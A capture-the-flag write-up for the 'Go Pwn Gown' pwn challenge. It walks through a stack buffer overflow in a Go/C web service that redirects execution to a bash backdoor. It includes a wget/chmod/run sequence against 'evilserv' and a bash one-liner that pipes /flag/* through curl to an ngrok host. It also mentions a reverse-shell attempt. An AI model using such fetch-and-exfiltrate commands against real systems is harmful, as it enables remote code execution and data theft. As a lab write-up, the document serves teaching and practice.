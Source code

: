 # Go Pwn Gown (day7)

<p align="justify">This challenge was a Pwn challenge in which the goal was to perform a buffer overflow on a website to read the flag stored on the server. Source code was provided with a docker file so that the server could have been ran locally, which revealed very helpful insofar as I had access to server logs. </p>

<p align="center"><img src="Screenshots/S1.png" alt="Desc"></p>

<p align="justify"> Looking at source code, it seemed that a backdoor was already included in the code of the running server. This backdoor shown in the snippet below could have been used to run command remotely : </p>

````c
void unsafeFunction(char *gown) {
    char buffer[64];
    memcpy(buffer, gown, 128); // UTF8 AMIRIGHT ?!
    printf("Received: %s\n", buffer);
}

void laluBackdoor() {
    char *bash_path = "/bin/bash";
    extern char **environ;
    execle(bash_path, bash_path, "-c", "echo $(${GOWN})", NULL, environ);
}
````

<p align="justify">  The flaw here was caused by the use of a buffer of size 64 in which 128 bytes were copied. The parameter gown was read from the website and then handled thanks to the function below, calling the unsafeFunction() containing the weakness : </p>

````c
func handleRequest(w http.ResponseWriter, r *http.Request) {
	log.Println("Calling handleRequest")
	defer func() {
		log.Println(r.URL.Path)
		gown := r.URL.Query().Get("gown")
		if gown == "" {
			http.Error(w, "Gown parameter is missing", http.StatusBadRequest)
			return
		}

		cGown := C.CString(gown)
		if i := strings.IndexByte(gown, '\x00'); i != -1 {
			gown = gown[:i]
		}
		os.Setenv("GOWN", string(gown))
		fmt.Println("Getenv(GOWN) = ", os.Getenv("GOWN"))
		defer C.free(unsafe.Pointer(cGown))

		C.unsafeFunction(cGown)
		// C.laluBackdoor()
		w.Write([]byte("Request handled\n"))
	}()
}
````

<p align="justify">To exploit it, I started by running the docker on my machine to adjust my payload using the logs. I developped a tiny C script available under exploit.c in this repo, to guess the number of chars I had to sent before overwritte ret address on the stack. The method I followed is described below : </p>

- I started by extracting the server binary running in the docker
- Then I extracted the address of the lalubackdoor using gdb
- I used this address in little endian format crafting the payload like this : payload = 64* 'A' + [little endian backdoor address]. I started with 64 bytes because it was the size of the buffer
- Then I sent the payload to the server and added one char at each lap, checking the logs in the meaningtime to identify the exact number of bytes required to perform a bof

<p align="justify">It came that I had to sent 72 chars before being able to overwritte the ret address and access lalubackdoor, as shown in the snippet below with the error on the execution of /bin/bash meaning that I well overwrote the ret address : </p>

<p align="center"><img src="Screenshots/S2.png" alt="Desc"></p>

<p align="justify"> The payload size once defined; I implemented a second C script to send commands to run to the server so that I could have been able to read the flag, the script is available in exploit2.c in this repo. This script adjusts payload size considering length of command and relay it to server to perform RCE. After a few tries I identified the directory /flag which was likely to contain the flag as shown in the screenshots below : </p>

<p align="center"><img src="Screenshots/S3.png" alt="Desc"></p>
<p align="center"><img src="Screenshots/S4.png" alt="Desc"></p>

<p align="justify"> Finaly after adjusting my payload locally, I opened a listening port on my machine and sent the bash script below to read the flag on the challenge server and extract it. Actually I tried to download and launch a compiled revshell but I failed because LibC (nc too) was missing on the server. I'v done it with 3 commands : </p>

 - 1st : wget http://evilserv/exploit.sh
 - 2nd : chmod +x exploit.sh
 - 3rd : ./exploit.sj
   
````bash
#!/bin/bash
cat /flag/* | curl -X POST --data @- http://6.tcp.eu.ngrok.io:13524/
````

<p align="justify"> After that I received the flag : </p>

<p align="center"><img src="Screenshots/S5.png" alt="Desc"></p>

Flag : _RM{OffenSkillSaysWhat2024YouGotGowned}_ , thanks _Laluka_ for this challenge !

